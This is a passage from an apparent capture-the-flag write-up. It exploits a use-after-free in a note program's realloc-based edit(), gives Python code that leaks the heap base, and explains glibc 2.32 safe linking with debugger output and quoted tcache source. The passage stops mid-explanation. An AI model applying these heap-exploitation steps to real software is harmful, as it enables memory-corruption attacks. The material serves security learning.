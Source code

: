 It's a typical note challenge structure. We have an array of 10 notes of size 0-0x78. We can edit or show note's content. `edit()` is more noticable that implemented using `realloc()`, and input `size` can be 0 so we `free()` chunk, but pointer is not cleared after `free()`. So in summary we can use `edit()` to:

- Allocate new chunk for empty note
- Allocate new bigger chunk for smaller note. 
- Edit note's content
- **Free chunk, with pointer remained**

## Leak heap base

We can abuse the above finding to leak heap base by freeing a chunk that another idx point to. 

```python
# leak heap base
edit(0, 0x60, b'a')
edit(0, 0)
edit(1, 0x60, b'a')
edit(0, 0)
list()
```

## Glibc-2.32's Safe Linking

https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/

Note that what we leaked is an encrypted form of chunk's fd:

```c
pwndbg> tel &mlist
00:0000│  0x558f84585040 (mlist) ◂— 0x0
01:0008│  0x558f84585048 (mlist+8) —▸ 0x558f84b632a0 ◂— 0x558f84b63
02:0010│  0x558f84585050 (mlist+16) ◂— 0x60 /* '`' */
03:0018│  0x558f84585058 (mlist+24) —▸ 0x558f84b632a0 ◂— 0x558f84b63
04:0020│  0x558f84585060 (mlist+32) ◂— 0x0
... ↓     3 skipped
```

This is because of glibc-2.32's safe linking.

Safe linking is a security mechanism to protect `malloc()`'s single-linked lists from tampering by attacker.

In this case we encounter this protection when allocate and free tcache chunk

```c
/* Caller must ensure that we know tc_idx is valid and there's room
   for more chunks.  */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache_key;

  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
```
